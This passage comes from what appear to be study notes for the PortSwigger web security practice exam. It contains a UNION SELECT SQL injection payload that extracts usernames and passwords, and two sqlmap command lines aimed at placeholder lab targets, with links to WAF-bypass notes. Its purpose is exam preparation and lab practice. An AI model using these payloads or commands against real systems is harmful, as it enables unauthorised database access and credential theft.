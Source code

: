 ```
'+UNION+SELECT+USERNAME_XXX,+PASSWORD_XXX+FROM+USERS_XXX--
```

[PortSwigger Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

#### SQLMAP

> In the [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html) we _**identify**_ SQLi on the advance search function by adding a single quote and the response result in `HTTP/2 500 Internal Server Error`.

> Here is my HackTheBox CPTS study notes on SQLMAP examples to bypass primitive protection WAF mechanisms. [SQLMAP Essentials - Cases](https://github.com/botesjuan/cpts-quick-references/blob/main/module/sqlmap%20Essentials.md#exercise-cases)

> After doing some testing with SQLMAP versions `1.7.2#stable` and `1.6`, I found that both are able to exploit the PortSwigger Practice exam. Walkthrough from [bmdyy doing the Practice Exam using SQLMAP](https://youtu.be/yC0F05oggTE?t=563) for reference of the parameters used.

[PortSwigger Forum thread - SQLMAP](https://forum.portswigger.net/thread/stage-2-of-practice-exam-with-sqlmap-1-7-2-2078f927)

> I took the practice exam and was able to exploit SQLi using below payload.

```
sqlmap -u 'https://TARGET.net/filtered_search?SearchTerm=x&sort-by=DATE&writer=' \ 
  -H 'authority: 0afd007004402dacc1e7220100750051.web-security-academy.net' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'cookie: _lab=YesYesYesYes; session=YesYesYesYes' \
  -H 'referer: https://TARGET.net/filtered_search?SearchTerm=x&sort-by=DATE&writer=' \
  -H 'sec-ch-ua: "Chromium";v="111", "Not(A:Brand";v="8"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36' \
  -p 'sort-by' -batch --flush-session --dbms postgresql --technique E --level 5
```

> This is also a good start with SQLMAP to _**identify**_ and extract data from a sensitive error based time delay SQL injection in advance search filters on the exam.

```
sqlmap -v -u 'https://TARGET.NET/search?term=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "term" --batch --cookie="_lab=YESYESYESYES; session=YESYESYESYES" --random-agent --level=2 --risk=2
```

[SQLMAP Help usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
